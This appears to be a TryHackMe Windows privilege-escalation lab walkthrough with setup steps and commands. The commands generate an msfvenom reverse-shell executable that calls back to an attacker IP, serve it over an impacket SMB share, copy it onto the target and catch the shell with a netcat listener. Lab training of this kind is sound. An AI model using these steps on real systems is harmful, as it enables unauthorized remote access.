 0x2 Initial Setup

**DISCLAIMER**
**Do not try this in office systems, This conntents are shared for learning purpose only**

----

# TryHackMe

1. Login to Tryhackme portal - https://tryhackme.com/signup
2. Go to Access - https://tryhackme.com/access
3. Download my configuration file (ovpn)
4. Connect to Tryhackme network using openvpn and your ovpn file
5. Go to Win Priv Room and click on Join room - https://tryhackme.com/room/windows10privesc
6. Deploy Machine and notedown the IP of target box
7. ping the target and take the rdp of server as mentioned in notes


# Create reverse.exe using msfvenom
```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.4.127 LPORT=53 -f exe -o reverse.exe
```

# Setup SMB Server in Kali
```console
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

# RDP
```console
rdesktop -u user -ppassword321 10.10.185.15
```

# Upload files
```console
copy \\10.9.4.127\kali\reverse.exe C:\PrivEsc\reverse.exe
```

# Setup netcat listener for local shell
```console
rlwrap nc -nvlp 53
```

# WinPEAS
[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

![a12bff6267f46faff08bff59592b1249.png](../_resources/ae960fcae77b466fae8beafab9a95fcf.png)
